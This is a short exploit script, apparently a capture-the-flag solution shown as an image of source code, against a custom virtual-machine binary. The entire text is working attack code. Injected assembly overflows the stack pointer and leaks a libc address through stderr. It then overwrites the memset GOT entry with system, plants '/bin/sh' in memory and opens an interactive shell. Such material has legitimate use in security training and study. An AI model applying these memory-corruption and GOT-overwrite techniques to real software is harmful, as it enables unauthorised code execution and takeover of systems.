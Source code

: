 ```py

# write /bin/sh to the first 8 bytes of vm, followed by shellcode, and jump to shellcode.
assembly_code = f"""
mov r7, 1010
sub r7, 1     
push 0xcafebabe
cmp r7, 0   
jne 14

push 0xdeadbeef
nop
nop
nop
nop
nop
nop
nop

; jump the the "mov r1, x" instruction to get the lower 4 bytes of stderr libc address into r1
jmp -40

; the other shellcode will jump back here
nop

; overflow to the sp again and overwrite it to point to "memset" in GOT (-1056)
mov r5, 244

nop
mov r3, -1056
push r3
sub r5, 1     
cmp r5, 0
nop      
jne 61

; libc base
sub r1, {libc.sym._IO_2_1_stderr_ % 2**32}
; system
add r1, {libc.sym.system % 2**32}
; overwrite last 4 bytes of memset GOT with system address
push r1

; restart the program so memset (system) is called
mov r8, r8
"""
assembly_code = overwrite_memory(-1024, [0x6e69622f, 0x0068732f] + asm_bytes_to_int32(assemble(assembly_code)), restart=False, nops = 512) # overwrite /bin/sh and overwrite memset to be system
assembly_code += "jmp 8"
send_assembly(assembly_code)


p.interactive()

```